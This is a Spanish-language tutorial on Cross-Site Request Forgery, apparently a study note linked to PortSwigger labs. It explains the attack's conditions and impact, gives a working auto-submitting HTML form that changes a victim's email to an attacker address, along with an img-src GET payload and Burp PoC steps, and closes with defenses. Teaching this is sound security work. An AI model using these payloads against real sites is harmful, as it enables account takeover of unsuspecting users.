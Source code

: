 # Cross-Site Request Forgery

## 🔎 ¿Qué es CSRF?

**Cross-Site Request Forgery** es una vulnerabilidad de seguridad web que permite a un atacante inducir a un usuario autenticado a realizar acciones que no tenía intención de ejecutar. En esencia, **aprovecha la confianza que un sitio tiene en el navegador del usuario**.

El ataque CSRF permite en parte eludir la **Same Origin Policy**, una política de seguridad que impide que sitios distintos se interfieran entre sí.

---

## 🚀 Impacto de un ataque CSRF

Cuando un CSRF tiene éxito, el atacante puede:

* Cambiar la dirección de correo del usuario.
* Modificar su contraseña.
* Transferir fondos.
* Realizar cualquier acción que el usuario autenticado pueda ejecutar.

Si el usuario víctima tiene privilegios elevados, como un administrador, el atacante podría obtener control total sobre la aplicación.

---

## ⚖️ Requisitos para que un CSRF sea posible

Para que una vulnerabilidad CSRF pueda explotarse, deben cumplirse tres condiciones:

1. **Acción relevante**: Debe existir una acción que interese al atacante (por ejemplo, cambio de contraseña, email, etc.).
2. **Manejo de sesión basado en cookies**: El sitio usa **cookies automáticas** para identificar al usuario, sin ningún otro mecanismo adicional de validación (como tokens).
3. **Parámetros predecibles**: El atacante puede predecir o controlar los parámetros necesarios en la solicitud HTTP.

---

## 📁 Ejemplo de solicitud vulnerable

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123xyz

email=attacker@example.com
```

Si el servidor solo depende de la cookie para autenticar la sesión y no requiere token, es vulnerable.

---

## 🔧 Construcción de un ataque CSRF

El atacante puede crear una página HTML maliciosa como esta:

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Este fragmento de código representa una prueba de concepto para explotar una vulnerabilidad de tipo **Cross-Site Request Forgery**. A continuación se detalla el funcionamiento de cada parte del documento y su implicancia en el ataque.

---

## 🔍 Contexto general

La página fue creada por un atacante con el objetivo de inducir a un usuario autenticado a **enviar una solicitud POST maliciosa** al sitio `vulnerable-website.com`, sin que el usuario lo sepa.

El objetivo es cambiar el email de la cuenta del usuario víctima por `pwned@evil-user.net`.

---

## 🗋 Estructura del HTML

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### ✉️ Formulario oculto

```html
<form action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
```

* El formulario está configurado para enviar una solicitud POST a `https://vulnerable-website.com/email/change`.
* El campo `email` tiene un valor oculto (`hidden`) que representa el correo malicioso al que el atacante quiere cambiar la cuenta del usuario.
* Este formulario no tiene botones visibles para el usuario.

### 👉 Envió automático con JavaScript

```html
<script>
    document.forms[0].submit();
</script>
```

* Apenas se carga la página, el navegador ejecuta este script.
* El script selecciona el primer formulario de la página (`forms[0]`) y lo **envía automáticamente**.
* Si el usuario está logueado en `vulnerable-website.com`, su navegador enviará también la cookie de sesión.


Si el usuario víctima visita esta página mientras está autenticado en el sitio vulnerable:

* Su navegador enviará la cookie de sesión.
* El sitio web vulnerable procesará la solicitud de forma normal, la tratará como si hubiera sido realizada por el usuario víctima y cambiará su dirección de correo electrónico.

---

## ✨ Automatización del ataque con Burp Suite

Burp Suite Professional permite generar ataques CSRF de forma automática:

1. Seleccionar una petición en Burp.
2. Clic derecho → **Engagement tools** → **Generate CSRF PoC**.
3. Burp genera el HTML necesario para explotar el CSRF.
4. Se puede editar para afinar el ataque.

Esto simplifica la creación de formularios con muchos parámetros o requests complejos.

---

## 🌐 Mecanismos de entrega de CSRF

* **HTML alojado por el atacante**: se envía por redes sociales, email, etc.
* **Comentario en sitio popular**: donde se incluya el HTML malicioso.
* **Autoejecución con `img src`** si la acción vulnerable es por GET:

```html
<img src="https://vulnerable.com/deleteUser?id=123">
```

No se necesita formularios en este caso, y puede ejecutarse con solo visitar una URL.

---

## 🛡️ Defensas contra CSRF

### 1. CSRF tokens

* Valor secreto e impredecible que el servidor incluye en formularios.
* El cliente debe reenviarlo en cada solicitud.
* Si falta o es incorrecto, se bloquea la acción.

### 2. SameSite cookies

* Evita el envío de cookies en requests cross-site.
* Desde 2021, **Chrome aplica SameSite=Lax** por defecto.
* SameSite=Strict ofrece mayor protección.

### 3. Validación Referer/Origin

* El servidor verifica que el origen de la petición coincida con el dominio válido.
* Más fácil de evadir que un CSRF token.

---

## 🔗 Recursos adicionales

* [CSRF Labs en PortSwigger Academy](https://portswigger.net/web-security/csrf)
* [SameSite cookies (Google Dev)](https://developer.chrome.com/docs/web-platform/samesite-cookies-explained/)
* [CSRF Prevention Cheat Sheet - OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

---

## 🎓 Conclusiones clave

* CSRF explota el comportamiento automático de los navegadores al enviar cookies.
* Las solicitudes GET y POST son vulnerables si no hay protección.
* Las defensas modernas (tokens, SameSite, CSP) dificultan su explotación.
* Aun así, muchos sitios implementan protecciones mal configuradas.

---

[Lab: CSRF vulnerability with no defenses](1_CSRF_vulnerability_with_no_defenses.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 
